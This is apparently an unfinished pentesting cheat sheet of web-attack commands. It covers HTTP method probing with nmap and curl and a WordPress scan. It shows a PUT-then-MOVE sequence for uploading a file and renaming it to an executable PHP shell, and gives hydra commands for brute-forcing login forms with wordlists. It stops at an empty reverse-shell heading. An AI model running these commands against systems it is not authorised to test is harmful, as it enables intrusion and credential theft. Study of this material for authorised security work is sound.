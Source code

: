 # WIP



OPTIONS

nmap --script http-methods --script-args http-methods.url-path=**'/test'** x.x.x.x
curl -vX OPTIONS x.x.x.x/abc

Wordpress

wpscan –url x.x.x.x/blog $ip:3129


You can also upload a file using the PUT method with the curl command:

curl -T **'leetshellz.txt'** **'http://$ip'**

And rename it to an executable file using the MOVE method with the curl command:

curl -X MOVE --header **'Destination:http://$ip/leetshellz.php'** **'http://$ip/leetshellz.txt'**



Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt

**Good to clone github "seclists" for this**

~~~bash
apt -y install seclists
~~~






​    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt


Other example

	hydra 111.11.111.11 http-form-post "/:password=^PASS^:Invalid" -P /usr/share/wordlists/rockyou.txt -l user -t 10 -s 42616 -v

This attacks the ip address on port 42616



## Reverse Shell